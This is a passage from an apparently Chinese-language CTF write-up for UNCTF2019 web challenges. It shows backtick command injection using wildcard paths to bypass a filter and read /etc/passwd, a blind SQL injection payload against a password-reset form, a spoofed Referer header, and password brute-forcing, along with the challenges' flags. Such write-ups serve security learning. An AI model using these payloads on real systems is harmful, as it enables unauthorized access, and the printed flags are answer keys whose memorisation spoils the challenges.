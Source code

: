 这里的反引号**' ` '**没有被过滤掉。

![](/home/cookie/Pictures/blogs/UNCTF2019/1.png)



遍历目录

![](/home/cookie/Pictures/blogs/UNCTF2019/2.png)



使用linux中的通配符还有/bin目录下文件的作用，我们可以使用被过滤掉的命令，如下：

```php
php > system("file `/b?n/?at /etc/passwd`");
```

![](/home/cookie/Pictures/blogs/UNCTF2019/3.png)



由于找不到flag文件的位置，所以使用如下命令获得flag

```php
http://101.71.29.5:10054/?a=`/b?n/gre?%20-R%20ctf`
```



flag:unctf{86dfe85d7c5842c5c04adae104193ee1}



## easy_admin

（1）发现找回密码处存在sql注入

然后过滤了select ，还有一些关键词，然后我们可以通过盲猜的方式获得密码

payload如下：

```php
admin' && substr(password,1,1)='f'#
```

因为密码估计也比较短，用burpsuit爆破一下就好了，获得用户名密码：flag{never_too

登录后，抓包在数据包中插入**referer: 127.0.0.1**获得后半段flag

![](/home/cookie/Pictures/blogs/UNCTF2019/24.png)

最终flag为：flag{never_too_late_to_x}







## 帮赵总征婚

这题，密码是随机的，直接使用一个大字典爆破，就好。狗屎运，一爆就出来了，拿了一个一血。。。。。
